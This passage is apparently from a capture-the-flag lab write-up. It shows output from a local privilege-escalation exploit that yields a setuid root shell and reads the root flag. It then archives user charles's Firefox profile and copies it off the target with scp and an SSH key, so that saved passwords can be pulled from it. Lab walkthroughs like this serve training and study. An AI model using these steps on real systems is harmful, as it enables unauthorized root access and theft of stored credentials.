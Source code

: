 ```console
Error org.freedesktop.DBus.Error.NoReply: Did not receive a reply. Possible causes include: the remote application did not send a reply, the message bus security policy blocked the reply, the reply timeout expired, or the network connection was broken.
[+] Success:
-rwsrwxr-x 1 root root 8392 Sep 26 10:11 /tmp/sh
[*] Cleaning up...
[*] Launching root shell: /tmp/sh
root@london:/tmp/exp# id
uid=0(root) gid=0(root) groups=0(root),1000(beth)
root@london:/tmp/exp# wc -c /root/.root.txt
27 /root/.root.txt
```

## Password of charles

The last question of the room is the password for the `charles` user.

Checking the home directory for the user, we find the `.mozilla` directory.

```console
root@london:/home/charles# ls -la
total 24
drw------- 3 charles charles 4096 Apr 23 22:11 .
drwxr-xr-x 4 root    root    4096 Mar 10  2024 ..
lrwxrwxrwx 1 root    root       9 Apr 23 22:11 .bash_history -> /dev/null
-rw------- 1 charles charles  220 Mar 10  2024 .bash_logout
-rw------- 1 charles charles 3771 Mar 10  2024 .bashrc
drw------- 3 charles charles 4096 Mar 16  2024 .mozilla
-rw------- 1 charles charles  807 Mar 10  2024 .profile
```

Inside the directory, we find a `Firefox` profile. If the user has saved credentials, we can extract them.

```console
root@london:/home/charles/.mozilla# ls -la firefox/
total 12
drw-------  3 charles charles 4096 Mar 16  2024 .
drw-------  3 charles charles 4096 Mar 16  2024 ..
drw------- 16 charles beth    4096 Mar 16  2024 8k3bf3zp.charles
```

First, we archive the directory and transfer it to our machine.

```console
root@london:/home/charles/.mozilla# tar -cvzf /tmp/firefox.tar.gz firefox
```

```console
$ scp -i id_rsa beth@10.10.59.255:/tmp/firefox.tar.gz .
```

Extracting the archive and fixing the permission issues.

```console
$ tar -xvzf firefox.tar.gz
$ sudo chmod -R 777 firefox
```
